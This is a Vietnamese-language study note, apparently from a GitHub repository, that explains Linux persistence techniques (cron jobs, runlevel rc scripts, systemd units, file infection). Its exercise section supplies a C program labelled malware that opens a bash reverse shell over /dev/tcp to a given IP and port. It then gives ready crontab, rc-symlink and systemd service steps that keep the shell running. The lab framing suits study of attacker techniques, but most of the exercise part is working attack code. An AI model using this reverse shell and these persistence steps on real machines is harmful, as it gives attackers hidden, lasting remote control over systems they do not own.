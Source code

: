 # Các kỹ thuật persistence

## Cron Jobs

- Cron Jobs là một ứng dụng để lập lịch chạy ứng dụng của Linux.

- Malware sử dụng Cron Jobs để lập lịch chạy, duy trì sự tồn tại trên hệ thống.

## Subsystems Initialization

- Startup Script là các script được chạy cùng với sự khởi động của hệ thống. Ví dụ: etc/rc.local/, /etc/init.d/

- Các script trong /etc/rc*.d/ được sử dụng để khởi động và dừng các dịch vụ hệ thống ở các runlevel khác nhau. Các level chạy của hệ thống:

  - Runlevel0: hệ thống tắt.
 
  - Runlevel1: chế độ đơn người dùng. Chỉ có hệ thống cơ bản và các dịch vụ tối thiểu được khởi động. Không có mạng, và thường chỉ có người dùng root có thể đăng nhập.
 
  - Runlevel2: chế độ đa người dùng mà không có mạng. Đa số các dịch vụ cơ bản và môi trường làm việc nhiều người dùng được khởi động, nhưng các dịch vụ mạng không được kích hoạt.
 
  - Runlevel3: chế độ đa người dùng có mạng. Tất cả các dịch vụ cơ bản và mạng đều được khởi động, nhưng không có môi trường desktop đồ họa.
 
  - Runlevel4: chưa được sử dụng hoặc dành cho mục đích đặc biệt. Người dùng có thể tùy chỉnh runlevel này để đáp ứng các nhu cầu cụ thể.
 
  - Runlevel5: chế độ đa người dùng với môi trường đồ họa. Tất cả các dịch vụ và mạng đều được khởi động, bao gồm cả môi trường desktop đồ họa.
 
  - Runlevel6: hệ thống khởi động lại.
 
- Init scripts là các script được chạy bởi tiến trình init(systemd) khi hệ thống khởi động. Ví dụ: /etc/systemd/system/ 

## File Infection and Replacement

- File Infection:

  - Appended Infection: Mã độc được thêm vào cuối một tệp hợp lệ.
 
  - Prepended Infection: Mã độc được thêm vào đầu một tệp hợp lệ.
 
  - Cavity Infection: Mã độc được thêm vào giữa một tệp hợp lệ.

- File Replacement: Mã độc thay thế một tệp hợp lệ thành một tệp độc hại cùng tên.

# Bài tập

## Malware:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
int main(int argc, char *argv[])
{
    const char *ip = argv[1];
    int port = atoi(argv[2]);
    char commad[MAX_BUFFER_SIZE];
    sprintf(commad, "bash -c \"/bin/bash -i >& /dev/tcp/%s/%d 0>&1\"", ip, port);
    system(commad);
    return 0;
}
```

## Bài 1:

```
crontab -e
*/5 * * * * /path/to/malware 127.0.0.1 1234
```

## Bài 2:

- rc script

  ```
  ln -s /path/to/malware /etc/rc6.d/malware
  ```

- init script

  - Tạo 1 tập tin service trong systemd (ví dụ: /etc/systemd/system/malware.service):
  
  ```
  [Unit]
  Description=Malware
  
  [Service]
  ExecStart=/path/to/malware 127.0.0.1 1234
  Restart=always
  
  [Install]
  WantedBy=default.target
  ```

  - Enable và start service:
 
  ```
  sudo systemctl enable malware.service
  sudo systemctl start malware.service
  ```
